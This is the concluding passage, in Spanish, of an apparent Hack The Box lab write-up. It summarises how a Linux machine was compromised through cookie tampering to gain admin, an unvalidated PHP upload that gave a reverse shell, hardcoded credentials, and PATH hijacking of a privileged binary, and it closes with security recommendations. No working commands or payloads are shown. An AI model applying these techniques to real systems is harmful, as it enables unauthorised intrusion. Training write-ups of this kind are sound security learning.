1. **Reconocimiento exhaustivo**: El uso de herramientas como Burp Suite para mapear la aplicación web fue fundamental para descubrir rutas ocultas como `/cdn-cgi/login`.

2. **Bypass de autenticación**: La manipulación de cookies de sesión para elevar privilegios de `guest` a `admin` me demostró la importancia de validar correctamente la autenticación en el lado del servidor, no solo confiar en valores de cookies que pueden ser modificados por el cliente.

3. **File Upload vulnerabilities**: La capacidad de subir archivos PHP sin validación adecuada permitió obtener un foothold inicial mediante una reverse shell.

4. **Enumeración de credenciales**: La búsqueda de credenciales hardcodeadas en archivos de configuración PHP (`db.php`, `admin.php`) resultó en la obtención de credenciales del usuario `robert`.

5. **Privilege Escalation mediante PATH hijacking**: La explotación del binario `bugtracker` mediante la manipulación de la variable de entorno `PATH` fue un excelente ejemplo de cómo los binarios que no utilizan rutas absolutas pueden ser vulnerables a este tipo de ataques.

**Dificultades encontradas:**

- Inicialmente intenté varias técnicas de inyección SQL sin éxito, lo que me llevó a explorar otras vías de ataque.
- La necesidad de recargar la página después de modificar las cookies para que los cambios tuvieran efecto fue un detalle importante que pude haber pasado por alto, porque no me estaba funcionando la escucha al puerto sin esa recarga.

**Recomendaciones de seguridad:**

- Validar y sanitizar todas las entradas del usuario, especialmente cookies de sesión.
- Implementar validación estricta de tipos de archivo en funcionalidades de upload.
- Nunca hardcodear credenciales en archivos de código fuente.
- Utilizar rutas absolutas en binarios con privilegios elevados o restringir la variable `PATH` en scripts privilegiados.

Esta máquina fue una excelente introducción a técnicas comunes de explotación web y escalada de privilegios en entornos Linux.

# References

1. [Hack The Box](https://www.hackthebox.com/)
2. [Hack The Box Forum](https://forum.hackthebox.com/)
3. [Pandoc LaTeX Template](https://github.com/Wandmalfarbe/pandoc-latex-template)
4. [Reverse Shell Generator - revshells.com](https://www.revshells.com/)

# PWNED

[PWNED LINK](https://labs.hackthebox.com/achievement/machine/2794675/288)
